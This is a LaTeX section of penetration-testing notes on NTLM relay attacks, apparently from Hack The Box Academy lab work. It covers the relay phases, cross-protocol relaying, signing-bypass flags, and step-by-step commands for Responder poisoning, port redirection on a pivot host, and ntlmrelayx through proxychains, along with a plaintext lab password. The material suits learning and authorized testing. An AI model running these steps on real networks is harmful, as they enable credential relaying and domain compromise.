\section{NTLM Relay attack}
Other cool attacks:
\begin{itemize}
    \item \url{https://en.hackndo.com/ntlm-relay/}
    \item \href{https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay#substituting-initial-account-compromise-with-more-ntlm-relay}{Substituting Initial Account Compromise with More NTLM Relay}
    \item \url{https://github.com/CCob/lsarelayx}
    \item \url{https://github.com/mdsecactivebreach/Farmer}
    \item \url{https://www.blackhillsinfosec.com/wp-content/uploads/2022/10/SLIDES_CoercionsandRelays-TheFirstCredistheDeepest.pdf}

\end{itemize}
\subsection{Intro}
Regardless of the many security improvements that NTLMv2 received over NTLMv1 and LM, all of the NTLM family of authentication protocols are susceptible to relay attacks from spoofed servers because they lack the means of supporting mutual authentication, whereby the client verifies that it is authenticating against the legitimate server and that the server verifies that it is authenticating the legitimate client (remember that the session security SSPI provides tackles this problem using signing).



\subsubsection{Attack pattern}

 NTLM relay attack into three phases: 
 \begin{itemize}
     \item 
         Pre-relay: focuses on techniques that induce/coerce a client to initiate NTLM authentication for a service on a server.
         \begin{itemize}
             \item \href{https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications}{poisoning and spoofing} name resolution protocols (responder, inveigh, \href{https://github.com/RedTeamPentesting/pretender}{Pretender}):
                 \begin{itemize}
                     \item DNS
                     \item NBT-NS (NetBios Name Resolution)
                     \item LLMNR (Link-Local Multicast Name Resolution)
                     \item mDNS (multicast DNS)
                     \item PNR (Peer Name Resolution)
                     \item SNID (Server Network Information Discovery)
                 \end{itemize}
             \item coerce
         \end{itemize}

     \item
         Relay: focuses on relaying the NTLM authentication of the client to a relay target
     \item
         Post-relay: takes advantage of the authenticated session we obtained through relaying a victim's NTLM authentication. We can conduct specific post-relay attacks depending on the authenticated session's protocol.
 \end{itemize}
 

\subsubsection{Cross-protocol attacks}

It is essential to understand that NTLM authentication relaying is not limited to just the SMB protocol. We can relay NTLM authentication from various protocols, including SMB and HTTP over LDAP, SMB, HTTP, MSSQL, IMAP, RPC, or any other application protocol capable of transmitting NTLM authentication messages.

\verb+ntlmrelayx+:
\begin{itemize}
    \item as a client, can relay NTLM authentication over various protocols:
        \begin{itemize}
            \item HTTP(S)
            \item IMAP
            \item LDAP(S)
            \item MSSQL
            \item RPC
            \item SMBv/1/2/3
            \item SMTP
        \end{itemize}
    \item as a server can relay NTLM authentication from a limited number of protocols:
        \begin{itemize}
            \item 
            \item HTTP(S)
            \item RAW (as described in the Initial support for raw NTLM relay server for lsarelayx PR, this server is protocol agnostic, and it is designed to accept raw NTLM messages directly from third-party relay applications, especially lsarelayx.)
            \item SMBv/1/2/3
            \item WCF (Windows Communication Foundation)

        \end{itemize}
\end{itemize}

Because the NTLM security protocols are all embedded protocols, we can extract the NTLM authentication messages from one application protocol and embed them in another, a technique known as {\bf cross-protocol relaying}. 


\begin{figure}[!ht]
  
\includegraphics[width=\linewidth]{network/ntlm/images/cross-protocol.png}
  \caption{NTLM cross protocol table}
  \label{fig:ntlm-cross-protocol}
\end{figure}



\begin{figure}[!ht]
  
\includegraphics[width=\linewidth]{network/ntlm/images/ntlm_relay_attack_mindmap.png}
  \caption{NTLM relay attack mindmap}
  \label{fig:ntlm_relay_attack_mindmap}
\end{figure}


\subsubsection{Bypass Server side mitigations}

\href{https://www.crowdstrike.com/blog/active-directory-ntlm-attack-security-advisory/}{Drop The MIC 2 (CVE 2019-1166) and Exploiting LMv2 Clients (CVE-2019-1338)}

\begin{itemize}
    \item 
        {\bf Drop the MIC and Drop the MIC 2} \verb+--remove-mic+

    \item 
        {\bf Your Session Key is my Session Key} \verb+-remove-target+
\end{itemize}



\subsection{Hunting for relay targets}

\subsubsection{RunFinger}

\begin{verbatim}
python3 RunFinger.py -i 172.16.117.0/24
\end{verbatim}

\subsubsection{CrackMapExec}
\begin{verbatim}
# Signing Disabled - Host Enumeration
crackmapexec smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt
\end{verbatim}

\subsubsection{LdapRelayScan}

\subsubsection{Windows PsMapExec}

\begin{verbatim}
PsMapExec -Targets all -GenRelayList
\end{verbatim}

\subsubsection{nmap}
\begin{verbatim}
nmap -Pn --script=smb2-security-mode.nse -p 445 172.16.117.0/24 --open
\end{verbatim}

\subsection{Obtaining traffic}

\subsubsection{Poison / spoof}

In case of Poison / spoof with responder ensure that the corresponding server are disabled.
\begin{verbatim}
$ sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" /usr/share/responder/Responder.conf
\end{verbatim}


\subsubsection{Farming hashes}
See~\ref{smb:farming-hashes} mssql fonction \verb+xp_dirtree+ can also be used.

\subsubsection{Authentication coercion}
See~\ref{ad:auth-coercion}

\subsection{Relaying}

\subsection{Remote NTLM relaying}

\href{https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/}{Remote NTLM relaying through meterpreter on Windows port 445}

{\bf Important note:}It seems that Socks attacks does not work when \verb+ntlmrelayx+ is \verb+proxyfied+

\subsubsection{On windows}

\begin{itemize}
    \item 
        \href{https://parsiya.net/blog/2016-06-07-windows-netsh-interface-portproxy/}{Windows Netsh Interface Portproxy}
    \item
        \href{https://rastamouse.me/ntlm-relaying-via-cobalt-strike/}{NTLM Relaying via Cobalt Strike}
    \item
        \href{https://github.com/pkb1s/SharpRelay}{SharpRelay (example of NTLM Relaying via Cobalt Strike}
\end{itemize}

{\bf solution 1: kill 445}:
\begin{verbatim}
sc stop netlogon
sc stop lanmanserver
sc config lanmanserver start= disabled
sc stop lanmanworkstation
sc config lanmanworkstation start= disabled
\end{verbatim}


{\bf solution 2: netsh portproxy}:
\begin{verbatim}
netsh interface portproxy add v4tov4 
    listenport=<l_port> listenaddress=<l_ip> 
    connectport=<r_port> connectaddress=<r_ip>
\end{verbatim}

{\bf solution 3: dedicated tools}:
\href{https://github.com/Arno0x/DivertTCPconn}{divertTCPconn}
\begin{verbatim}
divertTCPConn.exe <listening_port> <redirection_port>
\end{verbatim}

\begin{itemize}
    \item 
        \href{https://github.com/jellever/StreamDivert}{StreamDivert}
    \item
        \href{https://github.com/praetorian-inc/PortBender}{PortBender}
\end{itemize}


\subsubsection{On linux}

\begin{itemize}
    \item 
        use ssh remote port forward (will bypass firewall) where redirection ip is where ntlmrelayx is listening
        \begin{verbatim}
        sudo ssh -i root_ssh -R :445:<redirection_ip>:445 root@<ip> -vN
        \end{verbatim}
        if for some ssh remote port forward is locked (\verb+ss -lntp+ showing only 172.0.0.1  or confirming with a \verb+nc <not_local_host_ip 445+) use \verb+socat+

    \item
        use socat 
        \begin{verbatim}
        sudo socat TCP4-LISTEN:445,fork,reuseaddr TCP4:<redirection_ip>:445
        \end{verbatim}
        
\end{itemize}


if ntlmrelay box is accessing the network using vpn proxychains ntlmrelayx in order to be able to reach network? For example:
\begin{itemize}
    \item ntlmrelay box: 10.10.16.29
    \item linux box:
        \begin{itemize}
            \item 10.129.24.109
            \item 172.16.117.30 => internal
        \end{itemize}
\end{itemize}

{\bf setup remote port forwarding:}
\begin{verbatim}
sudo ssh -i root_ssh -R :445:10.10.16.29:445 root@10.129.24.109 -vN
sshpass -p HTB_@cademy_stdnt! ssh -q -D 1080 htb-student@10.129.24.109
# on ssh server
nc -z localhost 445 || echo "no tunnel open" 
ss -lntp
\end{verbatim}

\href{https://shorsec.io/blog/the-path-to-da-part-2-relaying-to-the-internet-and-back/}{(Relaying) To The Internet And Back}

\begin{verbatim}
htb-student@ubuntu:~$ ss -tlnp
State        Recv-Q       Send-Q               Local Address:Port               Peer Address:Port       Process
LISTEN       0            128                      127.0.0.1:445                     0.0.0.0:*
LISTEN       0            4096                 127.0.0.53%lo:53                      0.0.0.0:*
LISTEN       0            128                        0.0.0.0:22                      0.0.0.0:*
LISTEN       0            5                        127.0.0.1:631                     0.0.0.0:*
LISTEN       0            128                          [::1]:445                        [::]:*
LISTEN       0            2                                *:3389                          *:*
LISTEN       0            128                           [::]:22                         [::]:*
LISTEN       0            2                            [::1]:3350                       [::]:*
LISTEN       0            5                            [::1]:631                        [::]:*
\end{verbatim}

should be \verb+0.0.0.0:445+ 

Confirming that there is a problem:
\begin{verbatim}
# on ntlmrelay box
$ sudo nc -lnvp 445

# on pivot
htb-student@ubuntu:~$ nc  172.16.117.30 445 => NOK
\end{verbatim}



from man page:
\texttt{
 By default, TCP listening sockets on the server will be bound to the loopback interface only.  This may be overridden by specifying a bind\_address.  An empty bind\_address, or the address ‘*’,  indicates  that  the  remote
               socket should listen on all interfaces.  Specifying a remote bind\_address will only succeed if the server's GatewayPorts option is enable
}

{\bf so setup using socat:}

create a dynamic port forward using ssh:
\begin{verbatim}
# open dynamic port forward
sshpass -p HTB_@cademy_stdnt! ssh -q -D 1080 htb-student@10.129.205.223
\end{verbatim}

proxy-1080.conf:
\begin{verbatim}
strict_chain
quiet_mode
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
socks5  127.0.0.1 1080
\end{verbatim}

start the relay:
\begin{verbatim}
# prepare targets
echo '172.16.117.60' > target.tf

# start relay
sudo PROXYCHAINS_CONF_FILE=$PWD/proxy-1080.conf  \
    proxychains  ntlmrelayx.py -ip 10.10.16.29 -tf target.tf -smb2support
\end{verbatim}

port redirection (on the pivot):
\begin{verbatim}
socat TCP4-LISTEN:445,fork,reuseaddr TCP4:10.10.16.29:445
\end{verbatim}


poison (on the pivot):
\begin{verbatim}
cd tools/Responder/
sed -i 's/SMB = On/SMB = Off/g' ./Responder.conf && cat ./Responder.conf | grep --color=never 'SMB ='
sudo Responder.py -I ens192
\end{verbatim}



\subsection{links}
\begin{itemize}
    \item \href{https://en.hackndo.com/ntlm-relay/}{hackndo NTLM Relay}
    \item
        \href{https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire}{Responder
        with NTLM relay and Empire}
    \item
        \href{https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/}{Abusing
        Exchange: One API call away from Domain Admin }
    \item
        \href{https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/}{Combining
        NTLM Relaying and Kerberos delegation}
    \item
        \href{https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/}{A
        comprehensive guide on relaying anno 2022}
\end{itemize}
